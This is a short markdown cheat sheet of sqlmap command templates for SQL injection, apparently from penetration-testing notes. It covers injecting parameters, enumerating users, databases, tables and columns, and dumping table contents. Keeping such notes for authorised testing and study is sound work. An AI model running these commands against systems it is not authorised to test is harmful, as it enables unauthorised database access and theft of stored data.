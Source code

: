 
## SQL Injection

**SQLmap**
```
# Basic Syntax
> sqlmap -u <URL> -p <injection parameter> [options]


# Basic Post Requiest Injection
> sqlmap -u <URL> --data=<POST string> -p <parameter> [options]


# Specify File
> sqlmap -r <request file> -p <parameter> [options]


# Retrieve Banner
> sqlmap -u <URL> --banner 


# List Users of Database
> sqlmap -u <URL> --users 


# Check if User is Administrator
> sqlmap -u <URL> --is-dba 


# List All of the Databases
> sqlmap -u <URL> --dbs


# List Tables
> sqlmap -u <URL> -D <database> --tables


# List Columns
> sqlmap -u <URL> -D <database> -T <table> --columns


# Dump Table
> sqlmap -u <URL> -D <database> -T <table> -C <column> --dump


# Specify DBMS
> sqlmap -u <URL> --dbms=<DBMS>


# Append String which is always resented in output
> sqlmap -u <URL> --string "johnDoe"


# If injected payload needs to end with '));
> sqlmap -u <URL> --suffix "'));"


# Persistent Connections To Dump Bounch of Data
> sqlmap -u <URL> --keep-alive 


# Reduce Dumping Phase Time
> sqlmap -u <URL> --threads <1-10>

```